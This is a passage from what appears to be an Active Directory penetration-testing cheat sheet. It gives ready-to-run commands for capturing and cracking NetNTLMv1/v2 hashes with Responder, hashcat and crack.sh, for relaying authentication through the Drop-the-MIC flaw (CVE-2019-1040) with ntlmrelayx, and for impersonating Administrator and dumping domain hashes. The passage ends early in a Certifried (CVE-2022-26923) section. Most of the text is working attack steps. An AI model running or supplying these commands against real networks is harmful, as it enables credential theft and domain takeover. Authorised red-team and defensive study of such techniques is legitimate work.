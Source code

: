 #### _NETNTLMv1/2 hash capture:_
- NetNTLMv2:
    - 1\. Check if in the Responder\.conf configuration file all options are set to “On”\.
    - 2\. Run responder \(use "\-f" for fingerprint and "\-v" for not skipping previously captured hash\) \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface> (-v) (-f)`
    - 3\. Course the target system remotely or via Capture hashes \(all hashes are stored here "/usr/share/responder/logs/"\):
    - 4\. Recover password from NetNTLMv2 hash: `hashcat -m 5600 <hash.txt> <wordlist.txt>`
- NetNTLMv1 (if lucky, this still works on some domain controllers for compatibility reasons):
    - 1\. For Responder, change in the configuration file variable "Challange = Random" to "Challange = 1122334455667788"
    - 2\. Start responder \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface> --lm`
    - 3\. Coerce the target system to authenticate.
    - 4\. Use crack\.sh to convert NetNTLMv1 to a NTLM hash:
    	- 1\. Copy the first "response" part of the captured hash \(which uses the format "username::hostname:response:response:challenge"\) and paste it after the word “NTHASH: NTHASH:<response string>”
    	- 2\. Submit the "NTHASH:response" string as a token to [crack\.sh](https://crack.sh/get-cracking/)
    	- 3\. Enter email address on which you want to receive the extracted NTLM hash on
    	- 4\. Use the NTLM hash to login,dump hashes, etc\.

#### _Drop\-the\-MIC \(CVE-2019\-1040\) DC to DC:_
*MIC \(Message Integrity Code\) is a NTLM authentication security control that prevents modification of the included 3 NTLM messages based on a signature\. This must prevent relaying SMB authenticaton traffic to LDAP\. However, it is possible to modify the NTLM authentication packets and bypassing MIC without invalidating the authentication\. This makes it possible to relay SMB authentication to LDAP\. 
- 1\. Start ntlmrelayx to relay the SMB connection from the second DC to LDAP \(bypass MIC\): 
	- Create new computer account \(requires LDAPS\) \([impacket](https://github.com/SecureAuthCorp/impacket)\): `python3 ntlmrelayx.py -t ldaps://<FQDN DC01> --remove-mic --delegate-access -smb2support (--no-da) (--no-acl) (--no-validate-privs)`
	- Elevate user account \(doesn't require LDAPS\): `python3 ntlmrelayx.py -t ldap://<FQDN DC01> --remove-mic --escalate-user <username> -smb2support`
- 2\. Coerce the vulnerable DC (second DC) to authenticate. 
- 3\. If a new computer account with RBCD rights was created, generate a TGT and impersonate any high priv users agianst DC02 \(impacket\): `getST.py -spn host<FQDN DC02> -dc-ip <IP DC02> -impersonate Administrator <FQDN>/<created computer account with constrained delegation permissions>\$`
- 4\. Export the ticket into your environment and use any impacket tool \(e\.g\. secretsdump\) in combination with the '\-k' option\.

#### _Drop\-the\-MIC \(CVE-2019\-1040\) Exchange to DC:_
- 1\. Start ntlmrelayx to relay the SMB connection to LDAP \([impacket](https://github.com/SecureAuthCorp/impacket)\): `sudo ntlmrelayx.py --remove-mic --escalate-user <username to add DCSync> -t ldap://<FQDN or IP target DC> -smb2support`
- 2\. Coerce the Exchange server to authenticate. 
- 3\. Abuse the created computer account to dump hashes on the target DC\. 


---
### __Specific AD server vulnerability exploitation:__
#### _Certifried: AD CS Domain privilege escalation (CVE-2022-26923):_
In essence, this vulnerability allows a low-privileged user to escalate privileges to domain administrator in a default Active Directory environment with the AD CS server role installed. More info about the privesc method can be found  [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4).
- 1\. Obtain the CA Name: 
	- \([CS\-Situational\-Awareness\-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)\): `adcs_enum_com2`
	- \([Certipy](https://github.com/ly4k/Certipy)\): `certipy find '<FQDN>'/'<username>':'<password>'@'<IP or FQDN of CA server>'`